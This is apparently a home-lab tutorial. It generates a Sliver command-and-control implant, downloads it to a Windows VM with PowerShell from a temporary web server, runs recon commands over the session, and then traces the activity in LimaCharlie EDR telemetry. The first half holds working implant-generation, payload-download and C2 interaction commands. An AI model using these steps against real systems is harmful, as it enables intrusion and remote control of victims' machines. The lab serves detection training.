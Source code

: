 # Generate the C2 payload
### Ubuntu Server
1. SSH into the Ubuntu server and drop into root shell:
   `sudo su`
2. Change directory to the Sliver directory created earlier:
   `cd /opt/sliver`
3. Launch the Sliver server
   `sliver-server`
   ![](https://i.imgur.com/w7MFCCE.png)
4. Generate the C2 session payload, within the Sliver shell.
   `generate --http [Ubuntu_VM_IP] --save /opt/sliver`
   ![](https://i.imgur.com/D9MIHge.png)
5. Confirm the new implant configuration:
   `implants`
   ![](https://i.imgur.com/ZquXU2X.png)
6. Exit Sliver by using `exit` command, and drop the C2 payload to the Windows VM by creating a temporary web server with Python.
   `cd /opt/sliver`
   `python3 -m http.server 80`
### Windows VM
1. Launch Administrative Powershell, and run the following command
   ```
   IWR -Uri http://[Ubuntu_VM_IP]/[payload_name].exe -OutFile C:\Users\User\Downloads\[payload_name].exe
	```
	*the payload name is the unique name generated by Sliver, in my case it was COMBATIVE_SHEET*
2. Create a snapshot before executing the malware.
   ![](https://i.imgur.com/HpjnKZa.png)
# Start the Command & Control Session
### Ubuntu Server
1. Terminate the Python web server.
   `Ctrl+C`
2. Relaunch sliver
   `sliver-server`
3. Start the Sliver HTTP listener
   `http`
   ![](https://i.imgur.com/STD1HdB.png)
### Windows VM
1. Execute the C2 payload download via the Administrative Powershell
   `C:\Users\User\Downloads\<c2_payload>.exe`
### Ubuntu Server
1. Back on the Sliver Session, there should be a session check show up as shown
   ![](https://i.imgur.com/HteQP4S.png)
2. Verify the session in Sliver and note down the Session ID
   `sessions`
   ![](https://i.imgur.com/ikiBFgQ.png)
   `Session ID: fd1addb0`
3. Interact with the C2 session by using the following command:
   `use [session_id]`
   ![](https://i.imgur.com/TMNkVF9.png)
4. Now, there is direct session to interact with the Windows VM. Now let's run some basic recon commands:
	1. Get basic info about the session:
	   `info`
	   ![](https://i.imgur.com/qN3ByK7.png)
	2. Find out what user and the privileges of the user had
	   `whoami`
	   ![](https://i.imgur.com/KTxqUd1.png)
	   `getprivs`
	   ![](https://i.imgur.com/fRQHpw6.png)
	3. Identify the working directory of the implant
	   `pwd`
	   ![](https://i.imgur.com/JKzDCP9.png)
	4. Examine the network connections on the remote system
	   `netstat
	   ![](https://i.imgur.com/MI34qEv.png)
	   - The highlighted connection is the implant's
	   - rphcp.exe is LimaCharlie's
	5. Identify the running processes
	   `ps -T`
	   ![](https://i.imgur.com/xTSwZ0J.png)![](https://i.imgur.com/yGNOTr6.png)
	   Sliver will highlight the defensive product in Red and its own process in Green. It will also show the Security Product used by the system.

# Observe the EDR Telemetry
### LimaCharlie
1. Go to LimaCharlie web UI, and click on the active Windows sensor.
   ![](https://i.imgur.com/BTO0QFS.png)
2. On the right panel, click on "Processes" to examine the processes running on the Windows VM. As shown in the image below, there is one processes that is **Not Signed** *(without the Green Check Mark)*. Therefore, it would be unusual process.
   ![](https://i.imgur.com/qeDxf9R.png)
3. The Network Connections can also be viewed by clicking on the three-dots at the side of the process. It will show the IP address, ports, protocols and state of the connection.
   ![](https://i.imgur.com/9palrz7.png)
4. By clicking into the "Network" tab on the right panel, we can find search for the Destination IP by using `Ctrl + F` with the destination IP as the keyword and found several processes linked to it.
   ![](https://i.imgur.com/o9pjSRh.gif)
5. Next, go to the "File System" on the right panel, and navigate to the path where the implant is running from which can be determined from the "Processes" tab earlier. Then the file hash can be inspected and search on VirusTotal for any matching signature.
   ![](https://i.imgur.com/2fsGsfH.gif)
   However, there is no match found for the file hash. Because the payload is just generated on our own and it's not available in the VirusTotal database yet. This would be more suspicious if the file is suspected to be a malware, as VirusTotal have a huge database of malware sample, hence the sample file might be a custom-made malware.
6. Next, go to the "Timeline", and filter the timeline with known Indicator of Compromise (name of the file, IP address of the C2).
   ![](https://i.imgur.com/aLp26gT.png)
   As shown above, once the malware is launched it immediately started communicating with the C2 server.
